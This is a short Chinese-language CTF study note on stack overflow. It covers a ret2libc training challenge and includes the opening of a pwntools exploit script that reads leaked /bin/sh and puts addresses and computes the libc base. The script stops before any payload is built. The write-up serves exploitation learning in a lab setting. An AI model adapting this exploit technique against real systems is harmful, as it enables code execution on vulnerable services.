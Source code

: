 ![image-20220116172047304](栈溢出学习.assets/image-20220116172047304.png)

听说libc的版本也是以后的一个大坑，本地的libc要尽量和远程的libc一样，等之后刷题的时候慢慢踩了hhh。



### 题目：train.cs.nctu.edu.tw: ret2libc

IDA反编译看看：

![image-20220116230000474](栈溢出学习.assets/image-20220116230000474.png)

`__isoc99_scanf`不限制长度，存在栈溢出。binsh字符串的地址告诉我们了，puts的地址也告诉我们了，因此直接查libc的库然后打就行了，比例题还要简单：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./ret2libc')
p.recvuntil('"/bin/sh" is ')
binsh_addr = p.recvuntil("\n",drop=True)
binsh_addr = int(binsh_addr,16)
p.recvuntil('"puts" is ')
puts_addr = p.recvuntil("\n",drop=True)
puts_addr = int(puts_addr,16)

libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
```